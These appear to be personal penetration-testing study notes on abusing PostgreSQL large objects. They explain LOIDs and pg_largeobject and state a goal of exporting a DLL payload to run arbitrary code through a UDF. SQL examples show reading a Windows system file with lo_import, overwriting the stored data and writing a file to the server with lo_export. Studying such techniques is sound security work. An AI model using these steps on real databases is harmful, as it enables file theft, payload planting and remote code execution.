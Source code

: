 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/postgres-sql/1-psql-large-object-exploit/","noteIcon":"","created":"2025-04-15T14:11:19.610-04:00"}
---
```















https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql

# Decription
## What is Large object?
 PostgreSQL exposes a structure called large object, which is used for storing data that would be difficult to handle in its entire

The amount of data per page is defined to be LOBLKSIZE (which is currently BLCKSZ/4, or typically 2 kB).



## What is LOID?
The loid value is an integral value to our entire plan as we need to reference it when we are exporting large objects
![](https://i.imgur.com/JpKYxVL.png)




## What is pg_largeobject?

the large objects are stored in a table called pg_largeobject.

---

# Exploit goal
	Create a large object that will hold our binary payload (our custom DLL file we created in the previous section)
	Export that large object to the remote server file system
	Create a UDF that will use the exported DLL as source
	Trigger the UDF and execute arbitrary code

---
# Syntax


```
select lo_import('C:\\Windows\\win.ini');
\lo_list
```


 lo_import function also allows us to set the loid field to any arbitrary value of our choice while creating a large object
```

select lo_import('C:\\Windows\\win.ini', 1337);

```

View columns in pg_largeobject;
```
select loid, pageno from pg_largeobject;

select loid, pageno, encode(data, 'escape') from pg_largeobject;

```


```
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;

select loid, pageno, encode(data, 'escape') from pg_largeobject;

select lo_export(1337, 'C:\\new_win.ini');
```

Unlink after done.
```
\lo_unlink 1337
\lo_list


```

